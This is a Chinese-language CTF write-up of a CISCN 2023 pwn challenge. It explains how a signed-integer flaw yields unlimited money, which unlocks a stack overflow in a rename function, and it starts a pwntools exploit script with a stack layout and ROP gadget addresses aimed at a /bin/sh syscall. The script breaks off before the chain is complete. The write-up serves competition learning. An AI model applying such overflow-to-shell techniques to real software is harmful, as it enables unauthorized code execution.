 ```yaml
---
comment: True
---
```


# CISCN 2023 Quals Writeup

!!! abstract
    第一次打国赛，misc 太烂了，于是做了两天 pwn，还挺好玩的。

---

## 烧烤摊儿
![](https://img.shields.io/badge/-PWN-4d3f3f?style=flat-square)

静态链接，没有 PIE。

main 函数中调用 menu，返回用户选项，然后通过函数地址偏移得到执行的函数 pijiu、chuan、yue、vip、gaiming 等。

gaiming 中 scanf 存在栈溢出，而改名需要买下摊子，花费 100000。

逆向 pijiu 发现输入的购买瓶数是 signed int，所以只要这里输入负数就可以增加钱。

买下摊子后通过 gaiming 中的栈溢出进行 ROP 即可，直接调用 syscall 执行 /bin/sh，/bin/sh 可以通过 gaiming 中的 strcpy 拷贝到 name 中。

???+ success "exp"
    ```python
    p.sendlineafter(b"> ", b"1")
    [p.recvline() for i in range(3)]
    p.sendline(b"1")
    p.sendlineafter(b"\n", b"-1000000")
    p.sendlineafter(b"> ", b"4")

    # gaiming stack
    """
    gaiming stack:
    00:0000│ rsp
    01:0008│ 
    02:0010│ 
    03:0018│ 
    04:0020│ rbp
    05:0028│ ret addr
    """

    """
    0x0000000000402404 : syscall
    0x000000000040264f : pop rdi ; ret
    0x0000000000458827 : pop rax ; ret
    0x000000000040a67e : pop rsi ; ret
    0x00000000004a404a : pop rax ; pop rdx ; pop rbx ; ret
    """
